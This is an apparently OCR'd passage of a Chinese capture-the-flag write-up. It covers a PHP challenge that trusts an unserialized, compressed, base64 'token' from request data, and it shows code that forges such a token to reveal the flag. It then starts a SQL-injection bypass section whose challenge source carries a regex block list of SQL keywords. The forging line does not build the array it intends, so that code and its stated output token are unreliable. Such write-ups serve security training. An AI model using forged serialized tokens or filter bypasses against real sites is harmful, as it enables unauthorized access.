 **关键代码**

```php
if($login['user'] === 'ichunqiu')
        {
            echo $flag;

# 跟踪$login
$login = unserialize(gzuncompress(base64_decode($requset['token'])));

# 跟踪$requset['token']
$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
```

```php
$token= array(['user'] === 'ichunqiu');
$token= base64_encode(gzcompress(serialize($token)));
echo $token;
// 输出为eJxLtDK0qs60MrBOAuJaAB5uBBQ=
```

## SQL注入_WITH_ROLLUP绕过

**部分源码**
```php
<?php
error_reporting(0);

if (!isset($_POST['uname']) || !isset($_POST['pwd'])) {
    echo '<form action="" method="post">'."<br/>";
    echo '<input name="uname" type="text"/>'."<br/>";
    echo '<input name="pwd" type="text"/>'."<br/>";
    echo '<input type="submit" />'."<br/>";
    echo '</form>'."<br/>";
    echo '<!--source: source.txt-->'."<br/>";
    die;
}

function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){

//检测变量是否是数组

        $StrValue=implode($StrValue);

//返回由数组元素组合成的字符串

    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   

//匹配成功一次后就会停止匹配

        print "水可载舟，亦可赛艇！";
        exit();
    }
}

$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 

//遍历数组

    AttackFilter($key,$value,$filter);
}

```